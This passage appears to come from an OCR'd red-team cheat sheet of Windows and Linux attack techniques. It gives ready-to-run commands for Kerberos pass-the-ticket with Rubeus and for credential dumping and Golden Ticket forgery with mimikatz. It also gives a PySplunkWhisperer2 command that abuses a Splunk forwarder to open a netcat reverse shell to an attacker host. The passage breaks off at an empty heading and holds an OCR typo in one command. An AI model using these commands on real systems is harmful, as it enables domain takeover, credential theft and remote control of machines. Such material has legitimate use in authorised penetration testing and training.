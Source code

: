 Local Admin: Y/N

OS: Windows

Type: Abuse Ticket

Methods:

1..\\Rubeus.exe asktgt /user:\<USET\>\$ /rc4:\<NTLM HASH\> /ptt

2.klist

<a name="golden-ticket"></a>
# Golden Ticket

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Abuse Ticket

Methods:

1.mimikatz \# lsadump::dcsync /user:\<USER\>

2.mimikatz \# kerberos::golden /user:\<USER\> /domain:\</DOMAIN\>
/sid:\<OBJECT SECURITY ID\> /rce:\<NTLM HASH\> /id:\<USER ID\>

<a name="abusing-splunk-universal-forwarder"></a>
# Abusing Splunk Universal Forwarder

Domain: No

Local Admin: Yes

OS: Linux/Windows

Type: Abuse Channel

Methods:

python PySplunkWhisperer2_remote.py \--lhost 10.10.10.5 \--host
10.10.15.20 \--username admin \--password admin \--payload \'/bin/bash
-c \"rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp/luci11\|/bin/sh -i
2\>&1\|nc 10.10.10.5 5555 \>/tmp/luci11\"\'

<a name="abusing-gdbus"></a>
# Abusing Gdbus

Domain: No

Local Admin: Yes

OS: Linux

Type: Abuse Channel
